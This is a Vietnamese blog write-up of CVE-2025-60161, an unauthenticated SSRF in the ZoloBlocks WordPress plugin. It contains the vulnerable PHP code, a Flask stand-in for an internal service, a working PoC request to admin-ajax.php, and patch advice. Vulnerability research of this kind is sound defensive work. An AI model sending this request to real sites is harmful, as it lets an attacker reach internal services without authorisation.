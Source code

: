 ```yaml
---
title: CVE-2025-60161 Analysis & POC
description: Security Vulnerability in WordPress ZoloBlocks Plugin.
date: 2025-10-31 19:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, ssrf]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

## CVE & Basic Info
Lỗ hổng Server-Side Request Forgery (SSRF) trong BdThemes ZoloBlocks cho phép kẻ tấn công thực hiện yêu cầu giả mạo từ phía máy chủ. Sự cố này ảnh hưởng đến các phiên bản ZoloBlocks từ không xác định cho đến 2.3.11.

* **CVE ID**: [CVE-2025-60161](https://www.cve.org/CVERecord?id=CVE-2025-60161)
* **Vulnerability Type**: Server Side Request Forgery (SSRF)
* **Affected Versions**: <= 2.3.11
* **Patched Versions**: 2.3.12
* **CVSS severity**: Low (5.4)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress ZoloBlocks Plugin](https://wordpress.org/plugins/zoloblocks/advanced/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **ZoloBlocks**: **2.3.11** (vulnerable) và **2.3.12** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

Lỗ hổng này xuất hiện trong tệp `TemplatesV1.php`, tuy nhiên tệp này đã bị loại bỏ trong phiên bản vá lỗi.

![Diff](removed.png "TemplatesV1.php đã bị loại bỏ trong bản vá")

### Vulnerable Code 
```php {title="TemplatesV1.php - v2.3.11" hl_lines=[12]}
public function demo_import() {
    // Kiểm tra tham số đầu vào từ POST
    if (!isset($_POST['json_file_url'])) {
        wp_send_json_error('No JSON file URL provided');
        return;
    }

    // Lấy và làm sạch URL người dùng cung cấp
    $json_file_url = sanitize_text_field(wp_unslash($_POST['json_file_url']));

    // Gửi yêu cầu HTTP đến URL đó
    $response = wp_remote_get($json_file_url, ['timeout' => 30]);

    // Nếu lỗi khi fetch dữ liệu, trả JSON lỗi
    if (is_wp_error($response)) {
        wp_send_json_error('Failed to fetch JSON data');
        return;
    }

    // Lấy nội dung phản hồi và giải mã JSON
    $body    = wp_remote_retrieve_body($response);
    $data    = json_decode($body, true);
    $content = $data['content'] ?? '';

    // Trả kết quả JSON thành công cùng nội dung import
    wp_send_json_success([
        'status'   => 'success',
        'message'  => __('Pattern imported successfully!', 'zoloblocks'),
        'content'  => $content,
    ]);
}
```

{{< admonition bug >}}
Hàm `demo_import()` nhận URL từ người dùng => gửi yêu cầu HTTP (`wp_remote_get`) để tải dữ liệu JSON → giải mã và trả về kết quả qua `wp_send_json_success()`.
Vì không kiểm tra hoặc giới hạn URL, nên có thể bị lợi dụng gây **SSRF**.
{{< /admonition >}}

Hàm `demo_import()` được đăng kí làm callback cho action hook:

```php
add_action('wp_ajax_nopriv_zolo_demo_import', [$this, 'demo_import']);
```

Điều này có nghĩa là:

* Hook `wp_ajax_nopriv_` được sử dụng cho **người dùng chưa đăng nhập** (anonymous users).
* Khi client gửi request AJAX đến endpoint `/wp-admin/admin-ajax.php?action=zolo_demo_import`, WordPress sẽ gọi hàm `demo_import()`.

### Flow

{{< mermaid >}}
graph TD
A["admin-ajax.php?action=zolo_demo_import"] --> B["wp_ajax_nopriv_zolo_demo_import"]
B --> C["demo_import()"]
C --> D["sanitize_text_field()"]
D --> E["wp_remote_get(json_file_url)"]
E --> F{"is_wp_error(response)?"}
F -- Yes --> G["wp_send_json_error()"]
F -- No --> H["json_decode(body) → extract URLs"]
H --> I["wp_send_json_success()"]
{{< /mermaid >}}

## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, send_from_directory
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/metadata')
def metadata():
    return send_from_directory(BASE_DIR, 'metadata.json', as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

```json {title="metadata.json"}
{
  "content": "Internal service data"
}
```

### Proof of Concept (PoC)

Gửi POST request với URL trỏ đến local service:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...

action=zolo_demo_import&json_file_url=http://127.0.0.1:8001/metadata
```

**Result**:

![Result](result.png "Nội dung đọc được từ local service")

## Conclusion

CVE-2025-60161 là một SSRF trong `demo_import()` của ZoloBlocks (≤ 2.3.11) do nhận URL từ người dùng và gọi `wp_remote_get()` mà không kiểm tra. Endpoint cho phép truy cập không xác thực (`wp_ajax_nopriv_...`). Vấn đề đã được vá trong **2.3.12**.

## Key takeaways

* Nguyên nhân: không validate/whitelist URL trước khi `wp_remote_get()`.
* Ảnh hưởng: site chạy ZoloBlocks ≤ 2.3.11; attacker có thể truy vấn dịch vụ nội bộ (SSRF).
* Khắc phục nhanh: cập nhật lên **2.3.12** hoặc chặn endpoint `zolo_demo_import`.
* Phòng ngừa: whitelist/validate URL, giới hạn egress, bảo vệ AJAX bằng nonce/quyền.

## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress ZoloBlocks Plugin <= 2.3.11 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/zoloblocks/vulnerability/wordpress-zoloblocks-plugin-2-3-9-server-side-request-forgery-ssrf-vulnerability?_s_id=cve) 